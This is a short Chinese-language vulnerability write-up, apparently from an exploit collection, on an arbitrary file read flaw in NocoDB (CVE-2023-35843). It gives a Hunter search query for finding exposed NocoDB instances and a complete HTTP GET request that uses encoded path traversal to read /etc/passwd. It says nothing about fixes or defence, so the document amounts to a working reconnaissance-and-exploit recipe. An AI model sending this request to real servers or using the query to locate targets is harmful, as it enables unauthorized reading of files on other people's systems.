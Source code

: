 # NocoDB任意文件读取漏洞（CVE-2023-35843）

# 一、漏洞简介
NocoDB是一个开源 Airtable 替代品。将任何 MySql、PostgreSql、Sql Server、Sqlite 和 MariaDb 转换为智能电子表格。NocoDB存在任意文件读取漏洞。

# 二、影响版本
+ NocoDB

# 三、资产测绘
+ hunter`web.icon=="5d7c3d89c1d24cb4f15a508f7f0b6daf"&&web.title="NocoDB"`
+ 登录页面

![1693921077108-552cf2d5-970a-4f6e-bbcd-bf48e2538189.png](./img/9vDPKBC4oRNWg3jb/1693921077108-552cf2d5-970a-4f6e-bbcd-bf48e2538189-144298.png)

# 四、漏洞复现
```plain
GET /download/..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1693921148029-64aff3bb-16ff-4f8d-a963-b219bd5f9790.png](./img/9vDPKBC4oRNWg3jb/1693921148029-64aff3bb-16ff-4f8d-a963-b219bd5f9790-721038.png)



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fvdfqew9f4ggosya>